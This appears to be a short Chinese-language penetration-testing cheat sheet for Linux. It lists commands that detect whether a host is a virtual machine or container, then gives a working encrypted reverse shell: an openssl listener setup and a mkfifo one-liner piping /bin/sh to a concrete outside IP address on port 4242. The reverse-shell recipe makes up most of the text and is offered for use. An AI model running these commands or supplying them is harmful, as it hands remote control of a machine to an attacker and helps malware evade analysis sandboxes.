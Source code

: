 # Linux

## 查看是否是虚拟机
lshw -class system | grep -i VM & grep -i virtual
dmesg | grep -i VM & grep -i virtual
dmidecode -s system-product-name
ls /tmp
systemd-detect-virt
virt-what
ls -alh /.dockerenv
cat /proc/1/cgroup




## openssl 回弹shell

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.117.43.77:4242 > /tmp/s; rm /tmp/s
```



